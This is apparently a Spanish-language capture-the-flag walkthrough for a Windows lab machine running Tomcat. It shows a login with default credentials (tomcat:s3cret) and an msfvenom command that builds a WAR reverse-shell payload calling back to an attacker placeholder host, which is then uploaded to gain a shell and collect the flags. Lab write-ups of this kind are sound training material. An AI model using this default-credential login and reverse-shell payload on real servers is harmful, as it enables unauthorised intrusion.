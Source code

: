 10.10.10.95
Windows
Port: 8080

- Vamos a ver su pagina web.
- Tenemos un Tomcat, por lo tanto existe un login para poder entrar.
![[Pasted image 20250317174502.png]]
- Sabemos que por lo general cuando no se configura bien, Tomcat viene con usuarios predefinidos, vamos a probar cada usuario
- Las credenciales eran, ==tomcat:s3cret==.
![[Pasted image 20250317175955.png]]
- Tenemos como subir un archivo para hacer una reverse.
- Vamos a hacer un payload con msfvenom.
```
msfvenom -p java/shell_reverse_tcp LHOST=(IP_ATACANTE) LPORT=443 -f war -o (NOMBRE)
```
![[Pasted image 20250317180229.png]]
- Vamos a subirlo.
![[Pasted image 20250317180320.png]]
- Ya esta subido, vamos a hacer la reverse y recordar hacer otra reverse estando dentro para tener una conexión mas estable.
![[Pasted image 20250317180523.png]]
- Ya estamos dentro.
- Buscamos y encontraremos las flags de usuario y root.